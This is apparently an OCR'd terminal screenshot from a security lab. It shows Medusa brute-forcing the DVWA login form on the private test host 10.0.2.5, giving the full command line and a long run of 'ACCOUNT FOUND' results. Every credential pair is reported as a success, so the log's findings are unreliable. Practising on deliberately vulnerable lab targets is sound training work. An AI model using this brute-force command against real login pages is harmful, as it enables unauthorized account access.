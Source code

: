 2025-10-26 11:28:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: msfadmin Password: 123456 [SUCCESS]
2025-10-26 11:28:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: admin (3 of 4, 8 complete) Password: 123456 (1 of 4 complete)
2025-10-26 11:28:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: admin Password: 123456 [SUCCESS]
2025-10-26 11:28:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: admin (3 of 4, 9 complete) Password: msfadmin (2 of 4 complete)
2025-10-26 11:28:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: admin Password: msfadmin [SUCCESS]
2025-10-26 11:28:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 10 complete) Password: qwerty (4 of 4 complete)
2025-10-26 11:28:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: user Password: qwerty [SUCCESS]
2025-10-26 11:28:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: msfadmin (2 of 4, 11 complete) Password: password (4 of 4 complete)
2025-10-26 11:28:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: msfadmin Password: password [SUCCESS]
2025-10-26 11:28:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: root (4 of 4, 12 complete) Password: qwerty (1 of 4 complete)
2025-10-26 11:28:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: root Password: qwerty [SUCCESS]
2025-10-26 11:28:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: root (4 of 4, 13 complete) Password: 123456 (2 of 4 complete)
2025-10-26 11:28:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: root Password: 123456 [SUCCESS]
2025-10-26 11:28:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: admin (3 of 4, 14 complete) Password: password (3 of 4 complete)
2025-10-26 11:28:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: admin Password: password [SUCCESS]
2025-10-26 11:28:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: admin (3 of 4, 15 complete) Password: qwerty (4 of 4 complete)
2025-10-26 11:28:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: admin Password: qwerty [SUCCESS]
2025-10-26 11:28:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: root (4 of 4, 16 complete) Password: msfadmin (3 of 4 complete)
2025-10-26 11:28:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: root Password: msfadmin [SUCCESS]
2025-10-26 11:28:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: root (4 of 4, 17 complete) Password: password (4 of 4 complete)
2025-10-26 11:28:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: root Password: password [SUCCESS]
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ 
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ 
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ 
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ medusa -h 10.0.2.5 -U users.txt -P pass.txt -M http \ -m PAGE: '/dvwa/login.php' \ -m FORM: 'username=^USER^&password=^PASS^&Login=Login' \ -m 'FAIL=Login failed' -t 6
Medusa v2.3_rc1 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

2025-10-26 11:29:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 1 complete) Password: 123456 (1 of 4 complete)
2025-10-26 11:29:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: user Password: 123456 [SUCCESS]
2025-10-26 11:29:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 2 complete) Password: password (2 of 4 complete)
2025-10-26 11:29:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: user Password: password [SUCCESS]
2025-10-26 11:29:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: msfadmin (2 of 4, 3 complete) Password: qwerty (1 of 4 complete)
2025-10-26 11:29:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: msfadmin Password: qwerty [SUCCESS]
2025-10-26 11:29:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 4 complete) Password: msfadmin (3 of 4 complete)
2025-10-26 11:29:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: user Password: msfadmin [SUCCESS]
2025-10-26 11:29:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: admin (3 of 4, 5 complete) Password: 123456 (1 of 4 complete)
2025-10-26 11:29:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: admin Password: 123456 [SUCCESS]
2025-10-26 11:29:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: msfadmin (2 of 4, 6 complete) Password: msfadmin (2 of 4 complete)
2025-10-26 11:29:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: msfadmin Password: msfadmin [SUCCESS]